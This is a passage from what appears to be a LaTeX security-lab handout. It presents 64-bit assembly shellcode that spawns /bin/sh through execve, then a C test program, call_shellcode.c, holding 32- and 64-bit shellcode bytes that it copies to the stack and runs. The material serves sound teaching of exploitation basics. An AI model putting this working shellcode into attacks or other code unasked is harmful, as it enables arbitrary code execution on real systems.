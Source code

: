We provide a sample 64-bit shellcode in the following.
It is quite similar to the 32-bit shellcode, except that 
the names of the registers are different and the 
registers used by the \texttt{execve()} system call
are also different. Some explanation of the code is given in the 
comment section, and we will not provide detailed 
explanation on the shellcode. 


\begin{lstlisting}[language={[x86masm]Assembler}]
xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
push rdx
mov  rax, '/bin//sh' ; the command we want to run
push rax             ; 
mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
push rdx             ; argv[1] = 0
push rdi             ; argv[0] --> "/bin//sh"
mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
xor  rax, rax
mov  al,  0x3b       ; execve()'s system call number
syscall              
\end{lstlisting}



\subsection{Task: Invoking the Shellcode} 

We have generated the binary code from the assembly code above, and
put the code in a C program called \texttt{call\_shellcode.c} inside
the \texttt{shellcode} folder. If you would like to learn how to 
generate the binary code yourself, you should work on the Shellcode lab. 
In this task, we will test the shellcode. 

\begin{lstlisting}[language=C, caption=\texttt{call\_shellcode.c}, label=call_shellcode]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;

   func();    // Invoke the shellcode from the stack
   return 1;
} 
\end{lstlisting}
 
